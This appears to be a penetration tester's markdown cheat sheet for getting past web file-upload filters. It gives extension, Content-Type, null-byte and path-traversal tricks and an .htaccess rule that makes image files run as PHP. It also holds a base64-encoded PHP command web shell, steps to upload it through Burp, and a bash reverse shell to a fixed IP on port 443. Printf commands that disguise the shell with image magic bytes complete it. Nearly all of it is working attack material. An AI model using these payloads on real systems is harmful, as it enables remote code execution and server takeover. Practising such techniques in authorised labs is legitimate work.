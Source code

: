 ## File Upload
Upload filters are either:
1. File Extensions
2. Content-Type
3. Magic Number
- ##### Extensions
	- .pHp or .PHP case variations
	- check other extensions
	- shell.php.jpg double extensions
		- for double extension, also upload `.htaccess` file to same directory as shell (make sure to turn on hidden files from upload dialog box) that contains:
```
AddType application/x-httpd-php .jpg
AddType application/x-httpd-php .jpeg
AddType application/x-httpd-php .png
AddType application/x-httpd-php .gif
```
- ##### Content-Type
	- If expecting an image file, set Content-Type to image/jpeg or image/png and upload a php file
	- remove Content-Type and see if server defaults to a certain type
- Null byte injection
	- shell.php%00.jpg
- Special characters
	- shell.php;.jpg
	- shell.php:.jpg
- Directory Traversal
	- ../uploads/shell.php
- overwrite files
	- upload file with same name as existing, see if it overrides
Create file named dank.php with contents (base64 decode)
```
PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsnY21kJ10pOyA/Pgo=
```
- rename file dank.php.jpg
```
cp dank.php dank.php.jpg
```
- upload dank.php.jpg to site, capture with burp and change name to dank.php
- open image of file in browser and add ?cmd=id to the end to see if code executes. if so, start `nc -lvnp 443` and run:
```
bash -c 'bash -i >%26 /dev/tcp/192.168.45.160/443 0>%261'
```
- or other shells
##### Magic Number
```
printf '\x89PNG\r\n\x1A\n' | cat - shell.php > shell.png
```
- create png
```
printf '\xFF\xD8\xFF\xE0\x00\x10JFIF\x00' | cat - shell.php > shell.jpg
```
- creates jpg
```
printf 'GIF89a' | cat - shell.php > shell.gif
```
- creates gif
```
printf 'BM' | cat - shell.php > shell.bmp
```
- bmp
```
printf '\x49\x49\x2A\x00' | cat - shell.php > shell.tif
```
- tif
```
```
